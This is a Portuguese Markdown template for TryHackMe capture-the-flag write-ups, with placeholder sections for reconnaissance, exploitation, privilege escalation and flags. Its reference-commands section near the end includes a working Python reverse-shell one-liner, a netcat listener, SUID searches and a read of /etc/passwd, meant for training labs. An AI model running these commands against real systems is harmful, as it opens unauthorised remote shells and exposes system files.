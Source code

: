 # 📝 Template de Writeup TryHackMe

## 📋 Informações da Sala

| Campo | Valor |
|-------|-------|
| **Nome da Sala** | [Nome da sala] |
| **URL** | [https://tryhackme.com/room/sala] |
| **Dificuldade** | 🟢 Easy / 🟡 Medium / 🔴 Hard |
| **Categoria** | [Linux/Windows/Network/SOC/etc] |
| **Tempo Estimado** | [XX minutos] |
| **Data de Conclusão** | [DD/MM/YYYY] |

## 🎯 Objetivos da Sala

- [ ] Objetivo 1
- [ ] Objetivo 2
- [ ] Objetivo 3

## 📚 Conhecimentos Necessários

### Pré-requisitos

- Conhecimento básico de [tecnologia]
- Familiaridade com [ferramenta]
- Conceitos de [área]

### Ferramentas Utilizadas

- `ferramenta1` - Descrição do uso
- `ferramenta2` - Descrição do uso
- `ferramenta3` - Descrição do uso

## 🔍 Reconhecimento

### Informações Iniciais

```bash
# Comandos de reconhecimento
nmap -sS -A target_ip
```

**Resultados:**

- Porta 22: SSH
- Porta 80: HTTP
- Porta 443: HTTPS

### Enumeração

```bash
# Comandos de enumeração
gobuster dir -u http://target_ip -w wordlist.txt
```

## 🚀 Exploração

### Vulnerabilidade Identificada

**CVE/Tipo:** [CVE-2023-XXXX ou tipo de vulnerabilidade]

**Descrição:** Breve descrição da vulnerabilidade encontrada.

### Exploit

```bash
# Comandos do exploit
exploit_command --target target_ip --payload payload
```

**Resultado:** Descrição do que aconteceu após a exploração.

## 🔐 Escalação de Privilégios

### Enumeração do Sistema

```bash
# Comandos para enumerar o sistema
id
sudo -l
find / -perm -4000 2>/dev/null
```

### Método de Escalação

**Técnica:** [Nome da técnica utilizada]

```bash
# Comandos para escalação
escalation_command
```

## 🏆 Flags Obtidas

### User Flag

- **Localização:** `/home/user/user.txt`
- **Flag:** `{user_flag_aqui}`

### Root Flag

- **Localização:** `/root/root.txt`
- **Flag:** `{root_flag_aqui}`

## 📝 Resumo da Solução

### Passos Principais

1. **Reconhecimento:** Descoberta de serviços na máquina alvo
2. **Enumeração:** Identificação de vulnerabilidades
3. **Exploração:** Obtenção de acesso inicial
4. **Escalação:** Elevação de privilégios para root
5. **Flags:** Coleta das flags user e root

### Lições Aprendidas

- Conceito importante 1
- Conceito importante 2
- Conceito importante 3

## 🔧 Comandos Úteis para Referência

```bash
# Reconhecimento
nmap -sS -sV -sC -A target_ip
masscan -p1-65535 target_ip --rate=1000

# Enumeração Web
gobuster dir -u http://target_ip -w /usr/share/wordlists/dirb/common.txt
nikto -h http://target_ip

# Shells Reversos
nc -lvnp 4444
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Escalação Linux
find / -perm -4000 2>/dev/null
sudo -l
cat /etc/passwd
```

## 📚 Referências

- [Link para documentação oficial]
- [Tutorial relacionado]
- [CVE Database]
- [Exploit-DB]

## 🏷️ Tags

`linux` `privilege-escalation` `web` `enumeration` `[adicionar tags relevantes]`

---

**⭐ Dificuldade Pessoal:** [1-5 estrelas]  
**💡 Dica:** [Dica principal para quem for resolver]  
**📖 Área de Conhecimento:** [Linux/Windows/Network/SOC/Blue Team/etc]
